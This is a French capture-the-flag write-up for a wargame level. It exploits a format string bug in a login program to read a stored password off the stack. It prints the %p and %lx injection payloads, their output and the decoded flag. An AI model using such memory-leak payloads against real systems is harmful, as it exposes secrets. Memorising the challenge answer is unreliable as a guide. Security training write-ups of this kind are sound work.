

# Level 02

### Protections



### Analyse

Le programme demande un **username** et un **password** a l'aide de `fgets()`.

Le programme ouvre le fichier `/home/users/level03/.pass` que l'on convoite tant. En effet, si on entre un certain mot de passe, le programme nous montrera le contenu du `.pass`.

*Vu que GDB supprime le bit SUID, l'ouverture et la lecture du .pass ne fonctionnera pas et le programme crashera, on va donc devoir se passer de celui-ci.*

Seulement, c'est un `strncmp()` qui fait la verification, et il compare notre entree au contenu du `.pass`. *Donc pour avoir le mot de passe de level03 il nous faut le mot de passe de level03* 🥲

Le programme parrait protege a une attaque de type Buffer Overflow.

Mais si on l'examine de plus pres, il y a un `printf()` qui prend en parametre notre entree. On a rien a perdre alors pourquoi ne pas tenter un **Format String Injection** ?

> level02@OverRide:~$ ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: %x%x%x%x
> --[ Password: .
>
> ffffe3d002e2a2a2a2a does not have access!

Interessant, on sait maintenant qu'**on peut lire et ecrire dans la memoire**.

Jetons un coup d'oeil au code desassemble:

* Le buffer contenant la string lue par `printf()` est situe a `$rbp-0x70`
* Le buffer contenant le flag (`fread()`) se situe a `$rbp-0xa0`

*Techniquement, le premier buffer se situe donc avant le second.*

Quand on effectue un **Format String Injection**, `printf()` lit la memoire a partir du registre `rsp` en remontant vers `rbp`.

➤ Cela signifie qu'on va peut-etre pouvoir lire le contenu du `fread()`

### Exploitation

On sait que:

* La distance qui separe les deux buffers est de **48 octets**
* `printf()` va nous permettre de lire le buffer du `fread()` en faisant un **Format String Injection**
* Il s'agit d'un code **x86_64**

On doit dans un premier temps savoir quel est l'offset pour "Overflow" sur le buffer de `printf()`.

> (python -c 'print "A"*8 + " %p"*28') | ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: --[ Password: *****************************************
> AAAAAAAA 0x7fffffffe3d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 does not have access!

1. On print 8 'A' de maniere a obtenir 0x414141.. dans la memoire et detecter facilement a partir de quand `printf()` lit le 1er buffer.
2. %p affiche un adresse memoire, sur 8 octets ici.

*On donne des format a `printf()` mais celui-ci n'a pas d'arguments a prendre pour ceux-ci, il va donc afficher ce qu'il a sous la main est iterer dans la memoire du programme.*

On retrouve donc notre entree sous forme hexadecimal (0x4141414141414141) a **28*8 octets**.

On peut reiterer l'experience plus proprement comme ceci:

> (python -c 'print "AAAAAAAA" + "%28$p"') | ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: --[ Password: *****************************************
> AAAAAAAA0x4141414141414141 does not have access!

**On sait comment retrouver le premier buffer**, et la distance entre les deux buffer reste inchangee.

Il nous suffit alors de faire le calcul suivant:

> 28 - (48 / 8) = 22
>
> donc (python -c 'print "AAAAAAAA" + "%22$p"') | ./level02 devrait nous donne la premiere partie du .pass (la derniere en realite)

*On sait que le .pass comporte 40 octets a chaque level, on doit donc lire 5*8 octets.*

```
(python -c 'print "%22$lx" + "%23$lx" + "%24$lx" + "%25$lx" + "%26$lx"') | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d does not have access!
```

*On remplace %p par %lx pour esquiver les "0x".*

**On a donc le password sous forme hexadecimale, mais les blocks de 8 sont en Little Endian, il va donc falloir tout remettre dans le bon ordre.**

756e5052 34376848 45414a35 61733951 377a7143 574e6758 354a3568 6e475873 48336750 664b394d

> 75 6e 50 52 34 37 68 48
> 45 41 4a 35 61 73 39 51
> 37 7a 71 43 57 4e 67 58
> 35 4a 35 68 6e 47 58 73
> 48 33 67 50 66 4b 39 4d

devient

> 48 68 37 34 52 50 6e 75  // On reverse simplement les octets de chaque bloc de 8
> 51 39 73 61 35 4a 41 45
> 58 67 4e 57 43 71 7a 37
> 73 58 47 6e 68 35 4a 35
> 4d 39 4b 66 50 67 33 48

Il ne nous reste plus qu'a convertir cela en ASCII.


Flag: **Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H**
